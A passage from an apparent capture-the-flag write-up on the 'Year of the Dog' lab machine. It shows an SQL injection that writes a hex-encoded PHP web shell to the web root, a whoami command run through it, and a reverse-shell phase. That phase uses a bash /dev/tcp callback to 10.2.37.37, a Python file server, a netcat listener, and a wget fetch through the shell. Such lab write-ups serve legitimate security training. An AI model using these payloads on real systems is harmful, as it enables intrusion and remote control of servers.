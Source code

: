 **BURP COMMAND:**

```bash
' union select null,unhex('3c3f7068702073797374656d28245f4745545b27646f275d293b3f3e') INTO OUTFILE '/var/www/html/shell_script.php' -- -
```

`curl -iLX GET http://yearofthedog.thm/shell_script.php?do=whoami`

```bash
HTTP/1.1 200 OK
Date: Thu, 12 Sep 2024 13:30:04 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 47
Content-Type: text/html; charset=UTF-8

44eedac10b846a07c990195802cb2497        4
\N      www-data

```

**For more about hex function:**

[MySQL UNHEX() function  - w3resource](https://www.w3resource.com/mysql/string-functions/mysql-unhex-function.php)

> **Reverse Shell Phase**
> 

`nano shshell.sh`

```bash
bash -i >& /dev/tcp/10.2.37.37/11122 0>&1
```

`python3 -m http.server 8000`

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

`nc -nlvp 11122`

```bash
listening on [any] 11122 ...
```

`curl -iLX GET http://yearofthedog.thm/shell_script.php?do=wget http://10.2.37.37:8000/shshell.sh`

![image.png](image%208.png)
